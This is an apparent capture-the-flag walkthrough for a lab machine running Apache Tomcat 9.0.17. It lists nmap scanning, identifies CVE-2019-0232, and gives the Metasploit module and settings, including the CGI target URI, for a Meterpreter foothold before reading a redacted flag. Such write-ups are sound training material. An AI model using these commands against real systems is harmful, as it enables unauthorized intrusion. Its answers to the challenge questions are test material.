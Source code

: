 # Ready, set, elf.

- What is the version number of the web server?

	- `nmap -sV <TARGET_IP>` (Remember, if it says "host seems down", use `-Pn`, look for what it means)
	- `9.0.17`

- What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)

	- `msfconsole`
	- `search tomcat 9`
	- It outputs `exploit/windows/http/tomcat_cgi_cmdlineargs  2019-04-10`. googling then...
	- `CVE-2019-0232`

- Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.

	  no answer needed

	- after search, It should outputs only one exploit, anyway use `use 0` if the output is only one, or the appropriate number
	- `set RHOSTS <TARGET_IP>`
	- `set RPORT 8080`
	- `set LHOST <YOUR_IP>`
	- `set targeturi /cgi-bin/elfwhacker.bat`
	- `run` or `exploit`

- What are the contents of flag1.txt?

	- `cat flag1.txt`
	- `thm{********_***_***_*****}`

- Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!

	  no answer needed


